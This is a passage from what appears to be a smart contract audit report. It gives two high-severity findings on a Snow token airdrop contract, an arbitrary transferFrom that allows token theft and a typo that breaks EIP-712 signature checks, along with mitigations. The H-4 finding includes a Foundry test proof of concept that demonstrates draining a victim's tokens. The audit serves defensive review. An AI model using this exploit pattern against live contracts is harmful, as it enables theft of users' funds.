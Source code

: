 
### [H-4] Arbitrary transferFrom in SnowmanAirdrop Allows Token Theft (Input Validation + Fund Drain)

**Description:** 
The `claimSnowman()` function uses user-controlled `receiver` parameter in `safeTransferFrom(receiver, address(this), amount)`, allowing attackers to drain any user's Snow tokens by setting `receiver` to victim addresses.

**Impact:** 
Direct fund theft. Attackers can steal Snow tokens from any user who has approved the airdrop contract or has sufficient balance.

**Proof of Concept:**
```solidity 
function test_ArbitraryTransferFrom() public {
    // Alice has 1 Snow token and approves airdrop
    vm.prank(alice);
    snow.approve(address(airdrop), 1);
    
    // Attacker steals Alice's tokens by using her as receiver
    bytes32 digest = airdrop.getMessageHash(alice);
    (uint8 v, bytes32 r, bytes32 s) = vm.sign(alKey, digest);
    
    vm.prank(satoshi); // Attacker transaction
    airdrop.claimSnowman(alice, AL_PROOF, v, r, s);
    
    // Alice's tokens stolen, she gets NFT but lost tokens
    assertEq(snow.balanceOf(alice), 0);
    assertEq(snow.balanceOf(address(airdrop)), 1);
}
```
**Recommended Mitigation:** 
 Enforce that only `msg.sender` can transfer their own tokens


 ### [H-5] MESSAGE_TYPEHASH Typo Breaks All Signature Verification (Typo + Signature Bypass)

**Description:** 
 The `MESSAGE_TYPEHASH` constant contains a typo: `"SnowmanClaim(addres receiver, uint256 amount)"` is missing the 's' in "address". This causes all EIP-712 signature verification to fail as the hash won't match user-signed messages.

**Impact:** 
 Complete airdrop system failure. No user can successfully claim through signature verification, making the entire signature-based claiming mechanism non-functional.

**Recommended Mitigation:**
Fix the typo - 
```solidity 
bytes32 private constant MESSAGE_TYPEHASH = keccak256("SnowmanClaim(address receiver, uint256 amount)");
```
